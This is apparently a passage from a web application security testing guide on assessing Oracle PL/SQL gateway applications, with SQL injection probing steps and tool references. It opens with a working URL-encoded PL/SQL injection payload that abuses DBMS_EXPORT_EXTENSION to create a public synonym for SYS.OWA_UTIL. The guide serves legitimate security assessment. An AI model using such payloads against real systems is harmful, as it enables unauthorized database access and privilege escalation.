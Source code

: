 `http://www.example.com/pls/dad/orasso.home?);`\
` execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20`\
` BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES`\
` ('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1);`\
` EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20`\
` PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';`\
` END;--','SYS',1,'VER',0);END;`

### Assessing Custom PL/SQL Web Applications

During black box security assessments, the code of the custom PL/SQL application is not available, but it still needs to be assessed for security vulnerabilities.

**Testing for SQL Injection**\
Each input parameter should be tested for SQL injection flaws. These are easy to find and confirm. Finding them is as easy as embedding a single quote into the parameter and checking for error responses (which include 404 Not Found errors). Confirming the presence of SQL injection can be performed using the concatenation operator.

For example, assume there is a bookstore PL/SQL web application that allows users to search for books by a given author:

`http://www.example.com/pls/bookstore/books.search?author=DICKENS`

If this request returns books by Charles Dickens, but

`http://www.example.com/pls/bookstore/books.search?author=DICK'ENS`

returns an error or a 404, then there might be a SQL injection flaw. This can be confirmed by using the concatenation operator:

`http://www.example.com/pls/bookstore/books.search?author=DICK'||'ENS`

If this request returns books by Charles Dickens, you've confirmed the presence of the SQL injection vulnerability.

Tools
-----

-   SQLInjector - <http://www.databasesecurity.com/sql-injector.htm>\
-   Orascan (Oracle Web Application VA scanner), NGS SQuirreL (Oracle RDBMS VA Scanner) - <http://www.nccgroup.com/en/our-services/security-testing-audit-compliance/information-security-software/ngs-orascan/>

References
----------

**Whitepapers**\
\* Hackproofing Oracle Application Server (A Guide to Securing Oracle 9) - <http://www.itsec.gov.cn/docs/20090507151158287612.pdf>\
\* Oracle PL/SQL Injection - <http://www.databasesecurity.com/oracle/oracle-plsql-2.pdf>\
\

